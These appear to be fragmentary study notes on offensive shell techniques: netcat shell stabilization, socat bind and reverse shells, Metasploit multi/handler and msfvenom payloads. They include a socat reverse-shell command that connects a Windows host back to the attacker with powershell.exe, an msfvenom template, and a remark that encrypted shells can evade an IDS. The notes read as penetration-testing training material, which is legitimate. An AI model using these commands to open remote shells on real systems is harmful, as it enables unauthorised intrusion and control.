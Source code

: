 Netcat Shell Stabilization

- Python
- Rlwrap - windows
- use an initial netcat shell as a stepping stone into a more fully-featured socat shell.

  

With any of the above techniques, it's useful to be able to change your terminal tty size. First, open another terminal and run stty -a. Note down the values for "rows" and columns. Fill in the numbers you got from running the command in your own terminal.

  

Socat:

  

Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

  

- The syntax is more difficult
    
- Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.
    

  

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

  

Reverse Shell

Local machine: socat TCP-L:{PORT} 

Windows machine: socat TCP:{LOCAL-IP}:{LOCAL-PORT} EXEC:powershell.exe,pipes

Metasploit -- multi/handler:

  

The exploit/multi/handler module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a meterpreter shell,

  

Msfvenom:

  

Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool.

  

msfvenom -p {PAYLOAD} {OPTIONS}

  

Shell_reverse_tcp indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:
